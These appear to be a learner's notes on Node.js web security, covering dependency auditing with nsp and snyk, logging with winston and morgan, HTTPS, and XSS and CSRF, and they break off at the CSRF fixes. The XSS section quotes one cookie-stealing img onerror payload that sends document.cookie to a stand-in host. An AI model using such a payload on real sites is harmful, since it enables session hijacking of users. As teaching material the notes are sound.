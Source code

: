 ## 3rd Party Libraries

* As our applications grow, we depend on more 3rd party libraries.
  * It's not a bad thing to use code from other people. We use it top build applications faster.
  * When you add it to your project, we always want to check the package that we trust from people that we trust.
  * Go to their github page and look at the stars, forks and big community around it.
  * A lot of open source coummunity time has gone in to it.

### nsp and snyck

* `npm install -g nsp`
  * `nsp check # audit package.json`
  * nsp audits the package.json file, showing if their are vulnerabilities in packages.
* `npm install -g snyk`
  * `snyk test # audit node_modules directory`
  * we need to connect it to our github account.
* there are problems when using these tools because they update packages which are relied on by other packages.


## Logging

* Getting information from your system as to what is happening.
  * Use logs to find issues to see bugs and fix them.
  * If hackers aren't detected, then it can potentially get worse.
    * A breach can often be found a lot later by external security teams rather than internal logging.
* `npm install winston`
  * A logger a bit like console.log but better.
  * Winston can help do custom logging but it is up to you.
  * No logging input to the client.
* `npm install Morgan`
  * HTTP request logger middelware for Node.
  * With morgan, we can use `app.use(morgan('tiny'))` and this will do a small log.


## HTTPS Everywhere

* SSL/TLS Certificates
* HTTP is a plain-text transfer.
  * SSL/TLS creates a tunnel between client and server.
  * Without the S, usernames and password would be sent as plain text.
* letsencrypt.org
* CloudFlare - Host with cloudflare and you'd get https out of the box.
  * Helps against DDOS attacks.

## XSS + CSRF

* Cross site scripting.
  * Whenever an application includes untrusted data.
  * Allows a hacker to do stuff with the client's browser.
  * For example if someone used the `<img src="/" onerror="widow.location='haxxed.com?cookie=' + document.cookie">`
    * This would then load the page suggested, whilst revealing the cookie from the current site.
    * If, for example, this happened on twitter, you would then be able to log in on twitter.
    * Used for session hacking.
  * To solve, santize inputs.
* Cross site request forgery.
  * We, as a bad person, create a bad URL with malicious code
  * If you open the email with a bad link, already signed in to a banking website on the browser, it can take that cookie and use it on the other website.
  * To fix:
